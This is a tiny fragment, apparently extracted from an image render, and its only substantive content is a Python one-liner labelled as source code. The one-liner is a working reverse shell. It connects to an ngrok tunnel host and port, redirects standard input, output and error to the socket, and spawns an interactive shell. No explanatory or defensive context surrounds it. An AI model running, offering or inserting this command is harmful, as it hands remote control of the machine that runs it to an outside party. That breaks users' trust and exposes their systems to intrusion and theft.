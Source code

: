 python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("0.tcp.eu.ngrok.io",14153));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
